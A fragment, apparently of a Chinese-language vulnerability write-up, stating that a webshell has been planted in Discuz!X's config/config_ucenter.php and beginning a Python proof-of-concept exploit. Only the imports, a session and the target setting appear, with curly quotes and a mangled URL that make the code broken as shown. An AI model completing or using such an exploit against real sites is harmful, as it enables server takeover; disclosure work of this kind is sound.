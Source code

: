在`config/config_ucenter.php`中已经写入了webshell。

![image](../img/346135d3e7dd9cdea848437503543e1d.png)

![image](../img/2c40d20a4bbd4cf40b6aa54d1a76e406.png)

### poc

```
#!/usr/bin/env python3
import base64
import random
import re
import string

import requests

sess = requests.Session()

randstr = lambda len=5: ‘’.join(random.choice(string.ascii_lowercase) for _ in range(len))

##################################################

########## Customize these parameters ############

target = ‘[http://localhost/discuzx](http://localhost/discuzx)’

```